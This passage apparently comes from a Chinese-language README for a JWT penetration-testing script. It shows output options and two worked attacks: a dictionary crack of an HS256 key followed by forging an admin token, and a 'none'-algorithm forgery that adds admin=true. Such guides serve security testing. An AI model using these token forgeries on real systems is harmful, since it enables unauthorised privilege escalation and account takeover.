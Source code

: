 ## 输出选项

### 保存结果
```bash
# 保存为JSON格式
python3 encoder.py "token" --analyze --output analysis.json --format json

# 保存为文本格式
python3 encoder.py "token" --crack --output crack_result.txt --format txt

# 指定输出目录
python3 encoder.py "token" --auto-test --output /path/to/results/
```

### 输出文件说明
- `jwt_analysis_*.json` - 详细分析结果
- `jwt_attacks_*.txt` - 攻击结果列表
- `jwt_tokens_*.txt` - 生成的token列表
- `jwt_report_*.txt` - 专业测试报告

## 实战示例

### 示例1: 发现弱密钥
```bash
$ python3 encoder.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCIsImV4cCI6MTYxMDAwMDAwMH0.X8YxvwlrOd2JfrVYuPJMZn2v3qjhG7qjVh4H8VgNbLc" --crack

[+] 开始破解 HS256 签名...
[+] 字典大小: 1547 个密钥
[+] 找到密钥: 'secret'

[+] 使用破解密钥生成的admin JWT:
Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCIsImV4cCI6MTYxMDAwMDAwMCwiYWRtaW4iOnRydWUsInJvbGUiOiJhZG1pbiJ9.rTqMn4vQz9VH3xO9bVq2J4p7dN8wG2mF1sA5K9xE4Vc
```

### 示例2: none算法攻击
```bash
$ python3 encoder.py "token" --set-payload "admin=true" --algorithm none

✅ JWT修改成功!
📦 Payload 修改对比:
  修改前: {"user":"guest","role":"user"}
  修改后: {"user":"guest","role":"user","admin":true}

🎯 生成的Token:
  新Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiZ3Vlc3QiLCJyb2xlIjoidXNlciIsImFkbWluIjp0cnVlfQ.
```
